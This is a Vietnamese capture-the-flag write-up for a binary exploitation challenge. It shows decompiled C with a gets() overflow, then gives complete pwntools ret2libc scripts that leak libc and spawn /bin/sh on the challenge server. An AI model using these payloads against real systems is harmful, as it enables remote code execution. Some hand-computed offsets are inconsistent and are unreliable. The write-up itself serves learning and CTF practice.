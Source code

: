 # ida
```c
int date()
{
  return system("/bin/date");
}

__int64 vuln()
{
  char v1[64]; // [rsp+0h] [rbp-40h] BYREF

  puts("Tell us some review about our program: ");
  fflush(_bss_start);
  return gets(v1);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  puts("Welcome to the feedback submiter.");
  vuln();
  return 0;
}
```
# checksec
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

#### thông qua ida và checksec, ta có thể đoán được là ret2libc
> hàm system bài này không có sẵn trong file, có trong file libc trên sever

# ret2libc
> do trong chương trình có hàm puts nên ta có put@got và put@plt dễ dành leak được libc và tính địa chỉ base.
```python
payload = b"a" * 72 + p64(pop_rdi)
payload += p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.sym['main'])
r.sendlineafter(b"our program: ", payload)
leak_libc = u64(r.recvuntil(b"\nWelcome", drop=True)[1:]+b'\0\0')
log.info('leak libc: ' + hex(leak_libc))
```
chạy script trên sever ta nhận được ```leak libc: 0x7f1dec78aed0``` (ở đây 3kí tự cuối ```ed0``` là không đổi), tìm file libc trên mạng t có 1 file

tiếp đến ta pwninit nhưng... có vẻ như nó không tự động patched với nhau.
```
bin: ./exe

copying ./exe to ./exe_patched
running patchelf on ./exe_patched
```
nhưng không sao, ta sẽ tính tay.
___
Đầu tiên ta sẽ tính địa chỉ base libc 

![image](https://user-images.githubusercontent.com/111769169/223641357-b1530364-a813-4f70-a4be-a797fe7975bb.png)

ta sẽ lấy địa chỉ nhỏ nhất của libc là ```0x007ffff7d8d000``` base và tính offset từ địa chỉ leak đến địa
```python
libc.address = leak_libc - 528080
log.info('base libc: ' + hex(libc.address))
```
tiếp đó debug động, ta sẽ kiểm tra địa chỉ của chuỗi ```/bin/sh``` và hàm ```symtem``` là:

```
[*] /bin/sh: 0x7ff7752d1dd0
[*] base libc: 0x7ff775277f80
```
và tìm chuỗi /bin/sh ở địa chỉ ```0x7ff775401698 - 0x7ff77540169f  →   "/bin/sh"``` và hàm symtem ở ```$1 = (int (*)(const char *)) 0x7ff775279d60 <__libc_system>```
tính offset của chuỗi /bin/sh: 1243336 và system: 7648
kiểm tra lại ta thấy đúng rồi là oke

```
0x007ffdf36f7710│+0x0050: 0x00000000400703  →  <__libc_csu_init+99> pop rdi
0x007ffdf36f7718│+0x0058: 0x007feff7d40698  →  0x68732f6e69622f ("/bin/sh"?)
0x007ffdf36f7720│+0x0060: 0x007feff7bb8d60  →  <system+0> endbr64
```

do khi chạy ta có lỗi xmm1 nên ta sẽ gọi lệnh ret để +8 vào stack

<details> <summary> script </summary>

```python
from pwn import *

# r = process("./exe_patched")
r = remote("execution.ctf.pragyan.org" , 12386)
exe = ELF("./exe_patched")
libc = ELF("./musl_1.1.24-1_amd64.so")
# gdb.attach(r, gdbscript='''
#            b*vuln+50
#            c
#            ''')
input()

pop_rdi = 0x0000000000400703
#################
### leak libc ###
#################
payload = b"a" * 72 + p64(pop_rdi)
payload += p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.sym['main'])
r.sendlineafter(b"our program: ", payload)
leak_libc = u64(r.recvuntil(b"\nWelcome", drop=True)[1:]+b'\0\0')
libc.address = leak_libc - 528080
log.info('leak libc: ' + hex(leak_libc))
log.info('base libc: ' + hex(libc.address))

#####################
### check address ###
#####################
log.info("/bin/sh: " + hex(next(libc.search(b"/bin/sh"))))
log.info('system: ' + hex(libc.sym['system']))


payload = b'a'*72
payload += p64(0x00000000004004c9)      #ret
payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')) + 1243336)
payload += p64(libc.sym['system'] + 7648)
r.sendlineafter(b"our program: ", payload)
r.interactive()
```

</details>

# cách 2:

<details> <summary> script </summary> 

```python
context.binary = exe

pop_rdi = 0x0000000000400703

payload = b'A'*72
payload += flat(
    pop_rdi, 0x00000000601a00,      # pop_rdi và mình dùng hàm gets để ghi vào vùng nhớ được phép ghi 0x0060100 để lưu /bin/sh
    exe.plt['gets'],
    pop_rdi, 0x00000000601a00,      # pop_rdi và trỏ đến địa chỉ lưu /bin/sh và thực thi
    exe.plt['system'],
    )
r.sendlineafter(b"our program: ", payload)
r.sendline(b'/bin/sh\0')
```

</details>
